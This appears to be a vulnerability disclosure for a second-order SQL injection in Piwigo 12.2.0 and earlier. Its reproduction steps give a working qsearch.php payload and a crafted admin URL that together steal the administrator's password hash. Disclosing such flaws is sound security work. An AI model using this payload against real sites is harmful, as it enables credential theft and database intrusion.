

## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. 
 When an administrator open the URL, the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Step 1**
 
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`

And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`

Record the value of the id.

**Step 2**
 
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.

 
**Step 3**
 
After an administrator open the URL above, a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table. If we want to retrieve the data, we need to know the id of the data that has been inserted into the piwigo_search table. Because the id is incremental, we can just bruteforce it.

Then we request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
 

 
